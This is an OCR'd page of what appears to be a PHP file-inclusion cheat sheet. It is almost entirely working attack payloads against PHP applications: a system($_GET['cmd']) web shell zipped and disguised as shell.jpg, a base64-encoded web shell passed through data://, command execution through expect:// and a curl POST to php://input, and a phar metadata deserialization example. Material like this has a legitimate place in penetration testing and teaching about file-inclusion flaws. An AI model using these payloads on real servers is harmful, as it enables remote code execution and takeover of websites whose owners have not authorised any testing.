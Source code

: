 php://zip

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

php://data

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

php://expect

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

php://input

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

php://phar

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();


class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```
